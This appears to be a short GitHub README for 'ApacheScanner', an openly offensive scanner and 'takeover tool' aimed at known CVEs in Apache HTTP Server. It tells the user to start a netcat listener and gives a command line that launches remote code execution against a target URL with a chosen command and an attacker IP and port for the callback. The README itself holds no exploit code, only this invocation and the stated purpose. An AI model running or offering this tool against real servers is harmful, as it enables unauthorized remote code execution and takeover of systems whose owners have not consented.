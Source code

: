 # ApacheScanner
Apache HTTP Server Scanner and takeover tool with all common CVE's of Apache HTTP Servers


run a netcat or whatever listener for the RCE 

To run this Script install the Required pip Modules and define your command by this: 

```python3 ApacheScanner.py -u http://serveriphere  --rce --cmd "your command here" --lhost <your attacker IP> --lport <Your listening port>``` 

```python3 ApacheScanner.py --h```  for help and see all commands
